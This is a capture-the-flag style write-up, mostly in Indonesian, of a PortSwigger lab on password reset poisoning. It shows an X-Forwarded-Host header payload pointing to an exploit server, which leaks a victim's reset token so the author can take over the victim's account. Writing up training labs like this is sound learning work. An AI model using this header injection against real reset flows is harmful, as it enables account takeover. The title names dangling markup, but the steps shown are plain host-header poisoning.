





# Password Reset Poisoning Via Dangling Markup

> **Lab Description:**   This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.
You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.


## Lab Overview

| Property | Detail |
| :--- | :--- |
| **Category** | Dangling Markup Injection |
| **Difficulty Level** |  Expert |
| **Lab URL** | [PortSwigger Lab Link](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup) |
| **Status** | In progress |
| **Date Completed** | YYYY-MM-DD |

## Analysis
Sebelumnya, kurang lebih cara kerja middlware seperti ini:



Lalu apa hubungannya dengan lab ini? Saya mencoba untuk memodifikasi Host nya dan mengirimkan request reset password ke server dengan Host exploit yang saya dapatkan yaitu

```
exploit-0abd004303283cda8066b14a018b00b4.exploit-server.net
```

Namun server mengembalikan response seperti berikut:

```
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
Server: Academy Exploit Server
Content-Length: 45

"Resource not found - Academy Exploit Server"
```

Itu artinya aplikasi mempunyai daftar konfigurasi alamat host apa saja yang dikenali untuk melakukan request, jika alamat host tidak masuk dari daftar tersebut maka host yang berbeda tidak dikenali oleh server dan otomatis mengembalikan
response 404. Namun aplikasi gagal untuk membatasi host forwader, sehingga meskipun request masuk melalui alamat host yang sama akan tetapi host forwader mengenalinya dan tidak membatasinya maka alamat host forwarder yang 
berbeda tetap akan bocor dan diproses oleh server



Sehingga request reset password tetap masuk dan diproses oleh server

```
GET /forgot-password?temp-forgot-password-token=4nh2szaf96tgmyor4z0dj57d09d4mg9r HTTP/1.1
```

## Exploitation
1. saya akan meneruskan request reset password secara langsung menggunakan proxy request di burp suite dan menambahkan Host Forwarder nya kedalam header request, dengan payload berikut

```
X-Forwarded-Host: exploit-0abd004303283cda8066b14a018b00b4.exploit-server.net
```

2. Cek log server yang masuk 
Saya mendapatkan reset token berikut

```
/forgot-password?temp-forgot-password-token=3mnrp2ex9a7i6npsetkrl1t5jsurucbr
```

3. Pergi dan lakukan reset password dengan username carlos beserta token yang sudah didapatkan



4. Login menggunakan akun carlos dan password baru



Lalu kita berhasil masuk menggunakan akun carlos



## New Knowledge
- Menggunakan burpsuite, melakukan repeater dan Host Forwarded
- Membaca, menganalisis dan memahami log server
- Memahami bagaimana cara kerja reset token dalam permintaan reset password dan celahnya
- Memahami cara kerja middleware atau proxy dalam proses request dan response antara client dan server

## References
- [https://portswigger.net/web-security/host-header#what-is-the-http-host-header](https://portswigger.net/web-security/host-header#what-is-the-http-host-header)
